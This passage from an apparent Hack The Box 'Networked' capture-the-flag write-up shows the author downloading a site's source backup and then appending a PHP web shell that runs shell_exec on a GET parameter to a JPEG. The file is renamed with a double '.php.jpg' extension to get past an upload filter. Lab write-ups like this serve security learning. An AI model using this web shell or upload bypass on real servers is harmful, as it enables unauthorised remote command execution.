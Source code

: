 A file named `backup.tar` could be found in the directory:

<div>
<center><img src="/images/networked_htb_writeup/image-12.png"></center>
</div>

I downloaded it and started looking through the source code:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/networked# wget http://networked.htb/backup/backup.tar
--2019-11-09 05:05:51--  http://networked.htb/backup/backup.tar
Resolving networked.htb (networked.htb)... 10.10.10.146
Connecting to networked.htb (networked.htb)|10.10.10.146|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10240 (10K) [application/x-tar]
Saving to: ‘backup.tar’

backup.tar               100%[================================>]  10.00K  --.-KB/s    in 0s      

2019-11-09 05:05:51 (20.9 MB/s) - ‘backup.tar’ saved [10240/10240]

root@fury-battlestation:~/htb/blog/networked# tar xvf backup.tar 
index.php
lib.php
photos.php
upload.php
root@fury-battlestation:~/htb/blog/networked#

{% endhighlight %}

## Shell as www-data

Looking through the source, I didn’t find any major vulnerability that would allow me to change the uploaded file extension. However, the resulting file would keep all the extensions it has (e.g. `a.php.jpg` would be renamed `[something].php.jpg`). After re-reading the source code a few times, I tried to just append PHP code at the end of an image file and hope that the server will execute it if the filename contains `.php`:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/networked# cp ~/Pictures/yakuhito.jpg .
root@fury-battlestation:~/htb/blog/networked# echo '<?php echo shell_exec($_GET["cmd"]); ?>' >> ./yakuhito.jpg 
root@fury-battlestation:~/htb/blog/networked# cp yakuhito.jpg yakuhito.php.jpg

{% endhighlight %}
